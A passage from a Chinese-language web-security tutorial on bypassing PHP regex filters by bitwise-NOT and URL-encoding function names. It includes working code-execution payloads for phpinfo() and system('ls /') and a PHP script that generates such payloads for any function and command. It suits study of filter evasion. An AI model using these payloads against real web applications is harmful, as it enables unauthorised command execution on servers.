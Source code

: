 **注意：**执行的时候要进行一次 URL 编码，否则 Payload 无法执行。

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HAIdrvYLvrH5AOfFibqHAA4kIgib18JwcO0OztTRVocibiazHoyeYchE2oA/640?wx_fmt=jpeg)

### URL 编码取反绕过

刚才我们介绍的是通过取反汉字来得到我们想要的字母，我们还可以直接对一串恶意代码进行取反然后 URL 编码，在发送 Payload 的时候再次将其取反便可将代码还原，然后将其动态执行。并且，因为是取反，基本上用的都是不可见字符，所以不会触发到正则表达式。

假设我们要构造一个`phpinfo();`，由于因为没有过滤括号，所以只需要先取反再编码字符串 “phpinfo” 就行了：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HalNyj4KzHczU3ic9GYNvwZgOJuUOCcmqKwSrHwev99yib949UBR2vDtQ/640?wx_fmt=jpeg)

然后构造出我们的 Payload：

```
(~%8F%97%8F%96%91%99%90)();    // phpinfo();
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HzekC9g6Avc7mF4qmywRJQ8mfficobEd0A6iaViafDlYe4ujriax6B38j0w/640?wx_fmt=jpeg)

`phpinfo()`是没有参数的，如果需要执行有参数的函数的话，比如`system('whoami');`，则应分别对其中的字符进行编码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HKjRGqVWE5ZnYOG0A4QOny9BJXoWNZ9BzKXu4oLWFjR1C25d6JeLw0w/640?wx_fmt=jpeg)

然后构造出我们的 Payload：

```
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);    // system('ls /');
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HazKnk9ibTHmRJUUyiafGHYTPWSNnpv4hGzu1XcibHmKRtATdXlrGIqNxw/640?wx_fmt=jpeg)

### 构造脚本

直接运行以下脚本并输入提示内容即可生成 Payload：

```
<?php
//在命令行中运行

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```
